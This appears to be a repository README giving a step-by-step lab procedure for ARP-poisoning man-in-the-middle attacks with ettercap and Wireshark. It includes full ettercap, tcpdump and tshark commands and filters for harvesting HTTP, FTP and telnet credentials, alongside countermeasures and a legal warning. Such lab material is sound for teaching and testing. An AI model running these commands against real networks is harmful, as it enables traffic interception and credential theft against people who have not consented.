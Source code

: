 # MITM Attack Procedure with Ettercap and Wireshark

Complete methodology for performing Man-in-the-Middle attacks using ARP poisoning in controlled lab environment.

## Attack Overview
- **Technique**: ARP Poisoning
- **Tools**: Ettercap, Wireshark
- **Objective**: Intercept and analyze network traffic between victim and gateway
- **Environment**: Isolated lab network only

## Lab Environment Setup
- **Attacker**: Kali Linux (192.168.1.5)
- **Victim**: Windows 7 (192.168.1.10)
- **Gateway**: VirtualBox gateway (192.168.1.1)
- **Network**: Bridged or Internal network mode

## Step 1: Network Reconnaissance

```bash
# Discover network topology
ip route show

# Identify gateway
ip route | grep default

# Discover hosts on network
arp-scan -l
# or
nmap -sn 192.168.1.0/24
```

## Step 2: Enable IP Forwarding

```bash
# Enable IP forwarding (CRITICAL for maintaining connectivity)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Verify IP forwarding is enabled
cat /proc/sys/net/ipv4/ip_forward
# Should return: 1
```

## Step 3: Start Ettercap ARP Poisoning

```bash
# Basic ARP poisoning command
sudo ettercap -T -M arp:remote /192.168.1.1// /192.168.1.10//

# Command breakdown:
# -T: Text mode interface
# -M arp:remote: ARP poisoning attack mode
# /192.168.1.1//: Gateway target
# /192.168.1.10//: Victim target
```

## Step 4: Verify MITM Position

```bash
# Check ARP table manipulation on victim (if accessible)
arp -a

# On victim machine, attacker's MAC should appear for gateway IP
# Example output:
# 192.168.1.1 (gateway) at aa:bb:cc:dd:ee:ff [ether] on eth0
# (where aa:bb:cc:dd:ee:ff is attacker's MAC address)
```

## Step 5: Traffic Capture with Wireshark

```bash
# Start Wireshark with appropriate interface
sudo wireshark -i eth0

# Alternative: command-line capture
sudo tcpdump -i eth0 -w mitm_capture.pcap host 192.168.1.10
```

## Step 6: Wireshark Analysis

### Essential Filters for MITM Analysis

```
# All HTTP traffic
http

# HTTP authentication
http.authorization

# HTTP POST requests (form submissions)
http.request.method == "POST"

# Specific host traffic
ip.addr == 192.168.1.10

# ARP traffic verification
arp
```

### Credential Harvesting

1. **HTTP Basic Authentication Detection**
   - Filter: `http.authorization`
   - Look for "Authorization: Basic" headers
   - Decode Base64 strings to reveal credentials

2. **Form-based Login Interception**
   - Filter: `http.request.method == "POST"`
   - Examine form data in packet details
   - Look for parameters like "username", "password", "login"

3. **Clear Text Protocol Analysis**
   - FTP credentials: Filter `ftp`
   - Telnet sessions: Filter `telnet`
   - POP3/IMAP: Filter `pop` or `imap`

## Step 7: Evidence Documentation

### Traffic Analysis Results

```bash
# Extract HTTP credentials using tshark
tshark -r mitm_capture.pcap -Y "http.authorization" -T fields -e http.authorization

# Extract POST data
tshark -r mitm_capture.pcap -Y "http.request.method==POST" -T fields -e http.file_data

# Export captured packets
File > Export Specified Packets > Save as .pcap
```

### Screenshot Evidence
- Wireshark showing intercepted credentials
- ARP table showing successful poisoning
- Network topology confirmation

## Step 8: Attack Cleanup

```bash
# Stop Ettercap (Ctrl+C)
# This automatically restores original ARP tables

# Disable IP forwarding
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward

# Verify network connectivity restored on victim
ping 8.8.8.8  # Should work normally
```

## Detection Indicators

**Signs of successful MITM:**
- Traffic visible in Wireshark from victim to external hosts
- ARP table shows attacker MAC for gateway IP
- Slight increase in network latency
- HTTP credentials captured in clear text

**Troubleshooting failed MITM:**
- Check IP forwarding is enabled
- Verify network mode allows traffic interception
- Confirm ARP poisoning is working with `arp -a`
- Check firewall rules blocking forwarded traffic

## Security Implications

1. **HTTP traffic** is completely vulnerable to interception
2. **Authentication credentials** transmitted in clear text are compromised
3. **Session cookies** can be captured for session hijacking
4. **Network protocols** without encryption expose sensitive data

## Countermeasures

1. **Use HTTPS** for all sensitive communications
2. **Static ARP entries** prevent ARP poisoning
3. **Network monitoring** can detect ARP table anomalies
4. **Switch port security** limits MAC address changes
5. **VPN tunneling** encrypts all traffic regardless of application protocol

## Legal and Ethical Considerations

⚠️ **WARNING**: This technique should only be used in:
- Authorized penetration testing engagements
- Personal lab environments
- Educational settings with proper supervision
- Networks you own or have explicit permission to test